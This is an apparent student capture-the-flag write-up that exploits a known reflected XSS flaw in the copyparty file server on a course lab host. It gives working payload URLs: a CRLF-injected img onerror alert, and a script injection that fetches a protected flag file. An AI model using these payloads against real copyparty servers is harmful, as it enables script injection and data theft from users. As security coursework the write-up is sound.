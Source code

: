 # CTF Semana #7 (XSS)

## Accessing the Website
We navigated to the provided address [http://ctf-fsi.fe.up.pt:5007](http://ctf-fsi.fe.up.pt:5007), using **Google Chrome** (the exploit does not work on Firefox) and explored the site's functionalities as a regular user.

---

## Searching for Known Vulnerabilities
1. We searched for information about vulnerabilities related to the service and found out about copyparty. We then used the following search term in Google:  `copyparty cve xss` and found an exploit published on [https://www.exploit-db.com/exploits/51635](https://www.exploit-db.com/exploits/51635), describing a **Reflected XSS** vulnerability.

---

## Testing the Exploit
1. The original exploit triggers an alert with the following URL:

```html
https://localhost:3923/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E
```

2. We adapted the exploit to the challenge's server address:

```html
http://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E
```

3. Upon loading this link in the browser, an alert appeared, confirming the site is vulnerable to **Reflected XSS**.

![alert](/docs/images/alert.png)

---

## 4. Modifying the Exploit to Retrieve the Flag
We replaced the alert code with a script to fetch the protected `flag.txt` file and display its content in an alert.

Adapted code:

```html
http://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3Cscript%3Efetch('/flag.txt').then(response%20=%3E%20response.text()).then(data%20=%3E%20alert(data))%3C/script%3E
```

We pasted the link above into the browser and it loaded the page, and the script was executed.
The flag content appeared in an alert.

![flagCaptured](/docs/images/flagCaptured.png)

 The retrieved flag is: 

**flag{youGotMeReallyGood}**


# Tasks

## Why couldn't the flag be accessed directly?
The flag.txt file was stored on the server but protected from direct access. This protection was implemented to restrict external access to sensitive files. The server only allows access to these files through internal mechanisms, making it impossible to view them directly via a simple HTTP request or URL.

## Is this service popular, and could known vulnerabilities help you access the flag?
Yes, this service is popular and has known vulnerabilities. Specifically, a Reflected XSS vulnerability in versions prior to 1.8.6 of Copyparty was exploited. By searching for known exploits related to the service, we were able to find that this vulnerability allowed attackers to execute malicious JavaScript in the context of a victim’s browser, enabling access to sensitive information such as the flag.

## What vulnerability was exploited?
This attack exploited a Reflected XSS vulnerability. The server failed to properly validate or sanitize user input in the URL, allowing an attacker to inject and execute malicious JavaScript code in the context of the victim’s browser. By exploiting this vulnerability, we were able to fetch the contents of the protected flag.txt file and display it in an alert.


